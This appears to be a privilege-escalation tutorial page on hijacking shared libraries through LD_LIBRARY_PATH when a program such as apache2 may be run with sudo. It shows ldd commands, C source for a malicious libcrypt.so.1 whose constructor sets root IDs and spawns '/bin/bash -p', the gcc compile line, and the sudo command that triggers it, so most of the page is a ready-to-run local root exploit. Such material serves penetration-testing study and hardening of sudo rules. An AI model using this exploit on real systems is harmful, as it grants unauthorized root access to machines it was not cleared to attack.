

# LD\_LIBRARY\_PATH

The LD\_LIBRARY\_PATH environment variable contains a set of directories where shared libraries are searched for first.

The ldd command can be used to print the shared libraries used by a program:

#### `ldd /usr/sbin/apache2`

By creating a shared library with the same name as one used by a program, and setting LD\_LIBRARY\_PATH to its parent directory, the program will load our shared library instead.

Run ldd against the apache2 program file:

#### `ldd /usr/sbin/apache2`

.png>)

Hijacking shared objects using this method is hit or miss. Choose one from the list and try it (libcrypt.so.1 seems to work well).

Create a file (library\_path.c) with the following contents:

#### `#include <stdio.h>` ` #include <stdlib.h>` ` static void hijack() __attribute__((constructor));` ` void hijack() {` ` unsetenv("LD_LIBRARY_PATH");` ` setresuid(0,0,0);` ` system("/bin/bash -p");` ` }` ``

Compile library\_path.c into libcrypt.so.1:

#### `gcc -o libcrypt.so.1 -shared -fPIC library_path.c`

Run apache2 using sudo, while setting the LD\_LIBRARY\_PATH environment variable to the current path (where we compiled library\_path.c):

#### `sudo LD_LIBRARY_PATH=. apache2`

